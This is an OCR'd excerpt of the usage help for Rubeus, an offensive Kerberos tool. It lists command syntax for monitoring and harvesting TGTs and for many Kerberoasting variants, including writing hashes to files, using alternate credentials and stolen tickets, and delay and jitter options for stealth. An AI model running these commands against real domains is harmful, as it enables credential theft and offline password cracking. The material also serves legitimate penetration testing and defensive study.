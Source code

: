 ```

    Monitor every /interval SECONDS (default 60) for new TGTs:
        Rubeus.exe monitor [/interval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME] [/runfor:SECONDS]

    Monitor every /monitorinterval SECONDS (default 60) for new TGTs, auto-renew TGTs, and display the working cache every /displayinterval SECONDS (default 1200):
        Rubeus.exe harvest [/monitorinterval:SECONDS] [/displayinterval:SECONDS] [/targetuser:USER] [/nowrap] [/registry:SOFTWARENAME] [/runfor:SECONDS]


 Roasting:

    Perform Kerberoasting:
        Rubeus.exe kerberoast [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting, outputting hashes to a file:
        Rubeus.exe kerberoast /outfile:hashes.txt [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps]

    Perform Kerberoasting, outputting hashes in the file output format, but to the console:
        Rubeus.exe kerberoast /simple [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting with alternate credentials:
        Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting with an existing TGT:
        Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

    Perform Kerberoasting with an existing TGT using an enterprise principal:
        Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

    Perform Kerberoasting with an existing TGT and automatically retry with the enterprise principal if any fail:
        Rubeus.exe kerberoast </ticket:BASE64 | /ticket:FILE.KIRBI> /autoenterprise [/ldaps] [/nowrap]

    Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
        Rubeus.exe kerberoast /usetgtdeleg [/ldaps] [/nowrap]

    Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
        Rubeus.exe kerberoast /rc4opsec [/ldaps] [/nowrap]

    List statistics about found Kerberoastable accounts without actually sending ticket requests:
        Rubeus.exe kerberoast /stats [/ldaps] [/nowrap]

    Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
        Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/ldaps] [/nowrap]

    Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
        Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/ldaps] [/nowrap]

    Perform Kerberoasting, with a delay of 5000 milliseconds and a jitter of 30%:
        Rubeus.exe kerberoast /delay:5000 /jitter:30 [/ldaps] [/nowrap]
```